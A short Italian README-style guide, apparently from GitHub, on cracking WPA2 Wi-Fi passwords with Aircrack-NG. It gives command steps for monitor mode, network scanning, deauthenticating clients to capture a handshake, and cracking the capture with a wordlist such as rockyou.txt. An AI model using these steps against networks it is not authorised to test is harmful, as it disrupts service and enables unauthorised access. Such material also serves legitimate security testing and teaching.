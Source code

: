 # AIRCRACK-NG - ATTACCO WPA2

## Requisiti
* Scheda di rete con supporto Monitor Mode
* Kali Linux / Parrot OS / Distro Linux compatibili
* Aircrack-NG
* Tutti i pacchetti di Aircrack-NG
* Dizionario password (WordList), consigliato rockyou.txt

## Utilizzo generale

1. **Abilitare la modalità monitor sulla scheda di rete**

> $ airmon-ng list
> $ airmon-ng start <nome interfaccia>

2. **Scansionare le reti disponibili con Airodump-NG**

> $ airodump-ng <nome interfaccia>

3. **Utilizzare Airodump-NG e Aireplay-NG per catturare l'handshake**
Terminale 1 (Airodump):
> $ airodump-ng -c <channel> --bssid <bssid> -w <nome-file> <nome interfaccia>
Terminale 2 (Aireplay):
> $ aireplay-ng -0 <numero attacchi> -a <bssid> <nome interfaccia>

4. **Crackare il file .CAP contentente l'handshake tramite Aircrack-NG e la wordlist.txt scelta**
> $ aircrack-ng -a 2 -b <bssid> -w <worldlist.txt> <file .cap>
